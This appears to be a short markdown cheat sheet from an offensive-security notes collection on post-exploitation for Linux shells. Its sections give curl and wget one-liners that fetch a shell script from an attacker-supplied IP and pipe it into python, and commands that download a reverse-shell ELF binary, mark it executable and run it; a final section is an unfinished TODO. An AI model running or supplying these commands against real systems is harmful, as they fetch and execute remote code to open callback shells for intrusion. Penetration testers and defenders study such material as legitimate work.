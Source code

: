 # Unix Shell

Search Tag(s): #post-exploitation #enumeration-and-discovery #living-off-the-land #linux

## 01 - Basics

### 1.1 - Callback Shell

#### 1.1.1 - Fileless execution

```
$ curl http[s]://<IP>/shell.py | python
```

If the machine doesn't have `curl` installed you can use `wget` to execute it through memory.

```
$ wget -qO- http[s]://<IP>/shell.py | python
```

#### 1.1.2 - Dropping on disk

Download reverse shell binary and execute it.

```
$ curl -o shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf

$ wget -O shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf
```

#### 1.1.3 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```